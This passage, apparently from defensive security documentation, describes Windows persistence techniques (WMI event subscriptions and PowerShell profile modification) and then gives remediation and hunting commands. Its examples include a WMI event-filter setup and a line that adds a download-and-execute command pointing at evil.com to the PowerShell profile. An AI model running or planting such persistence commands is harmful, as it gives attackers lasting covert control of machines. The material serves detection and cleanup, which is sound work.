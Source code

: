 **Why it's dangerous**: Provides flexible, stealthy persistence with various triggers.

#### 3. WMI Event Subscriptions (Critical)
**Pattern**: `__EventFilter`, `__EventConsumer`, `FilterToConsumerBinding`

**Example**:
```powershell
$filter = ([wmiclass]"\\.\root\subscription:__EventFilter").CreateInstance()
$filter.Name = 'ProcessStartEvent'
$filter.Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance ISA 'Win32_Process'"
```

**Why it's dangerous**: Extremely stealthy, survives reboots, difficult to detect.

#### 4. PowerShell Profile Modification (High)
**Pattern**: Modifications to `$PROFILE` files

**Example**:
```powershell
Add-Content -Path $PROFILE -Value "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/load.ps1')"
```

**Why it's dangerous**: Executes malicious code every time PowerShell starts.

### Remediation Guidance

#### Immediate Actions
1. **Remove persistence entries**:
   ```powershell
   # Remove registry Run key
   Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SuspiciousEntry"
   
   # Remove scheduled task
   Unregister-ScheduledTask -TaskName "MaliciousTask" -Confirm:$false
   
   # Clean PowerShell profile
   Get-Content $PROFILE | Where-Object {$_ -notmatch 'malicious-pattern'} | Set-Content $PROFILE
   ```

2. **Hunt for WMI persistence**:
   ```powershell
   Get-WmiObject -Namespace root\subscription -Class __EventFilter
   Get-WmiObject -Namespace root\subscription -Class __EventConsumer
   Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding
   ```

3. **Remove WMI persistence**:
   ```powershell
   Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Name='EvilFilter'" | Remove-WmiObject
   ```

#### Prevention Measures
1. **Registry Monitoring**:
   - Enable SACL auditing on Run keys
   - Use File Integrity Monitoring (FIM)
